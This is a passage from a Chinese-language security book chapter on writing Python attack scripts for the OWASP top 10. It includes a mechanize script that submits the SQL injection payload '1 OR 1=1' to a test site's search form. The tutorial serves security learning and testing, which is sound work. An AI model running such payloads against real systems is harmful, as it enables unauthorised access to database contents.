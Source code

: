 # 第四章，用 Python 攻击脚本

**开放式 Web 应用程序安全项目**（**OWASP**）前 10 名是 10 个最关键的 Web 应用程序安全风险列表。在本章中，我们将讨论如何使用 Python 库编写 OWASP top 10 攻击脚本：

*   注射
*   断开的身份验证
*   跨站点脚本（XSS）
*   不安全的直接对象引用
*   安全配置错误
*   敏感数据暴露
*   缺少功能级访问控制
*   CSRF 攻击
*   使用具有已知漏洞的组件
*   未验证的重定向和转发

# 注射

SQL 注入是一种攻击者可以创建或更改 SQL 命令以泄露数据库中数据的方法。如果应用程序接受用户输入并将其与静态参数组合以构建 SQL 查询，而无需进行适当的验证，则这种方法非常有效。

同样，所有类型的注入攻击都可以通过操纵应用程序的输入数据来完成。使用 Python，我们可以向应用程序注入一些攻击向量，并分析输出以验证攻击的可能性。Mechanize 是一个非常有用的 Python 模块，用于在 web 表单中导航，它使用 Python 提供有状态编程的 web 浏览体验。

我们可以使用`mechanize`提交表格并分析回复：

```
import mechanize 
 # Import module 

# Set the URL 
url = "http://www.webscantest.com/datastore/search_by_id.php" 

request = mechanize.Browser() 

request.open(url) 

# Selected the first form in the page 
request.select_form(nr=0) 

# Set the Id  
request["id"] = "1 OR 1=1" 

# Submit the form 
response = request.submit() 

content = response.read() 

print content 

```

这将打印 POST 请求的响应。这里我们提交一个攻击向量来中断 SQL 查询并打印表中的所有数据而不是一行。当测试一个网站时，我们必须创建许多像这样的定制脚本来测试许多类似的攻击向量。
